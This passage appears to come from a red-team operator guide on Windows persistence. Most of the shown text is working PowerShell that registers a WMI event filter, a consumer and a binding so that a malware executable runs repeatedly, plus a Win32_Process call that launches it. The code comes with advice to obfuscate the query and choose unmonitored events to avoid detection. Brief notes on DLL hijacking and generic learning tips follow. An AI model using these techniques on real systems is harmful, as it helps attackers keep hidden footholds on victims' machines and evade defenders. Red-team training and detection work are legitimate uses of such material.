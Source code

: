         powershell

    $Filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
        Name = "MyEventFilter"
        EventNamespace = "root\cimv2"
        QueryLanguage = "WQL"
        Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_Process'"
    }

    $Consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
        Name = "MyConsumer"
        CommandLineTemplate = "C:\Path\to\malware.exe"
    }

    Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
        Filter = $Filter
        Consumer = $Consumer
    }

    Recommendations:
        Choose WMI events that occur frequently but are not typically monitored.
        Use obfuscation techniques to disguise the WMI query and command.

Modifying Existing WMI Classes:

    Description: Attackers can modify existing WMI classes or create new ones that execute their payload in response to standard system operations.
    Tools: PowerShell, wbemtest.exe.
    Example (Modifying an existing WMI class):

    powershell

        Get-WmiObject -Namespace "root\cimv2" -Class Win32_Process | ForEach-Object {
            $_.Create("C:\Path\to\malware.exe")
        }

        Recommendations:
            Modify less frequently used WMI classes to avoid detection.
            Regularly monitor WMI activity to ensure persistence mechanisms remain undetected.

E. DLL Hijacking

DLL hijacking is a technique where attackers place a malicious DLL in a location that is loaded by a legitimate application, achieving persistence.

Section 11: Additional Recommendations

As the landscape of cybersecurity continuously evolves, it’s crucial for Red Team operators to stay ahead of detection mechanisms and defensive strategies. Below are some additional recommendations that provide deeper insights into maintaining stealth, effectiveness, and adaptability during Red Team engagements. These recommendations draw from the comprehensive strategies discussed in earlier sections and expand on emerging trends and techniques.
A. Continuous Learning and Adaptation

    Stay Updated with Latest Threat Intelligence: Cybersecurity is a fast-moving field, with new vulnerabilities, exploits, and defensive techniques emerging constantly. Regularly updating your knowledge with the latest threat intelligence, security patches, and exploit databases is crucial. Subscribing to security bulletins, participating in relevant forums, and attending conferences can provide the latest information.
